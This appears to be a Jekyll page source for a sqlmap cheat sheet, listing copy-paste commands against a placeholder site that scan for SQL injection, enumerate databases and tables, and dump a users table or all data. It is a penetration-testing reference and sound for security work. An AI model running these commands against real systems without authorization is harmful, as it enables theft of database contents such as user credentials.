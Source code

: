 ```yaml
---
layout: topics
page-title: SQLmap
scan-file: sqlmap -r filename
scan-url: sqlmap -u "http://testsite.com/login.php"
list-dbs: sqlmap -u "http://testsite.com/login.php" --dbs
list-tables: sqlmap -u "http://testsite.com/login.php" -D site_db --tables
dump-table: sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump
scan-url-type: sqlmap --dbms=mysql -u "http://testsite.com/login.php"
dump-all: sqlmap -u "http://testsite.com/login.php" --dump-all
---
```


[Cheat sheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet){:target="_blank"}
{% include copy-code-blocks.html text='Scan using saved request: ' language='bash' code=page.scan-file %}
{% include copy-code-blocks.html text='Scan URL: ' language='bash' code=page.scan-url %}
{% include copy-code-blocks.html text='List dbs: ' language='bash' code=page.list-dbs %}
{% include copy-code-blocks.html text='List tables in DB: ' language='bash' code=page.list-tables %}
{% include copy-code-blocks.html text='Dump table in DB: ' language='bash' code=page.dump-table %}
{% include copy-code-blocks.html text='Specify bd type: ' language='bash' code=page.scan-url-type %}
{% include copy-code-blocks.html text='Dump all entries: ' language='bash' code=page.dump-all %}
